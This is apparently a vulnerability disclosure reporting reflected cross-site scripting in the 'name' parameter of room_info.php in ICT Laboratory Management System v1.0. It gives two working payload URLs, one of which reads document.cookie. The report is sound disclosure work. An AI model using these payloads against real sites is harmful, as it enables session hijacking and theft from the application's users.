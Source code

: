 # ICT Laboratory Management System v1.0 has reflected cross-site scripting

BUG_Author: LeoZhangCA

Website source code address: https://www.sourcecodester.com/php/11256/ict-laboratory-management-systme.html

Vulnerability File: /LabManagement/views/room_info.php

GET parameter "name" exists reflected cross-site scripting vulnerability

Payload1:/LabManagement/views/room_info?name=<script>alert('xss')</script>&id=6

![image](https://github.com/LeozhangCA/CVEReport/blob/main/picture/reflectedXSS1.png)

Payload2:/LabManagement/views/room_info?name=<script>alert(document.cookie)</script>&id=6

![image](https://github.com/LeozhangCA/CVEReport/blob/main/picture/reflectedXSS2.png)

